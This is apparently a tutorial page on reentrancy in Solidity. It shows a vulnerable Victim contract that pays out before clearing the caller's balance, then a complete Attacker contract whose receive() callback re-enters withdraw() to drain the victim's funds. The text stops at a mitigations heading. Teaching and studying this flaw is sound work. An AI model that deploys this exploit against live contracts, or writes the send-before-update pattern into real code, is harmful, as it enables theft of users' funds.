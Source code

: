 ```solidity
contract Victim {
    mapping(address => uint) private balances;
 
    function withdraw() public {
        uint amount = balances[msg.sender];
        
        // Send the funds to the caller using low-level call
        // VULNERABILITY: This external call can be exploited to re-enter the contract
        (bool success, ) = msg.sender.call{value: amount}("");
        
        require(success);
        
        // Update the state AFTER the external call (too late!)
        // This should happen BEFORE the external call to prevent re-entrancy
        balances[msg.sender] = 0;
    }
 
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}
```

```solidity
contract Attacker {
    Victim victim;
    uint256 private initialDeposit;

    constructor(address _vulnerable) {
        victim = Victim(_vulnerable);
    }

    function attack() public payable {
        initialDeposit = msg.value;
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }

    // Fallback function that gets triggered when the victim contract sends ETH
    receive() external payable {
        if (address(victim).balance > initialDeposit) {
          // Re-enter the withdraw function before the victim updates its state
          // This allows us to withdraw the same funds multiple times
          victim.withdraw();
        }
    }
}
```

### Re-Entrancy Mitigations
